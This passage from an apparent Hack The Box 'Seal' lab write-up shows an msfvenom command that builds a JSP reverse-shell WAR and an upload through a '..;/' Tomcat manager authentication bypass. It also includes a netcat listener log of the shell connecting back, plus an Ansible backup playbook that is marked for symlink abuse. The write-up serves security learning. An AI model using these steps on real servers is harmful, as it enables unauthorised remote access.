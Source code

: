 We can also access the `manager` endpoint which allows us to upload `.war` files which we can use to obtain a reverse shell by uploading a malicious `war` file at the endpoint `/shell`, which when accessed will give us a reverse shell

![](manager.png)

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Seal]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.63 LPORT=4444 -f war -o shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
Saved as: shell.war
```
We can then upload it by using the url `https://seal.htb/manager/test/..;/html/?upload=` which again is used to bypass authentication system used. WE intercept the request in burp and mofify the endpoint:

![](burp.png)

When browsing to `/shell` we get a reverse shell:

```console
┌──(bitis㉿workstation)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.95.190] 43862
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## Pivot
If we go to `/opt/backups` we find the following file:

```yaml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```
{: file="/run.yml"}

This file copies everything in the `/var/lib/tomcat9/webapps/ROOT/admin/dashboard`{: .filepath} directory with the argument `copy_links=yes`. This argument means that files that symlinks point towards are copied, not the symlinks themselves. 


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'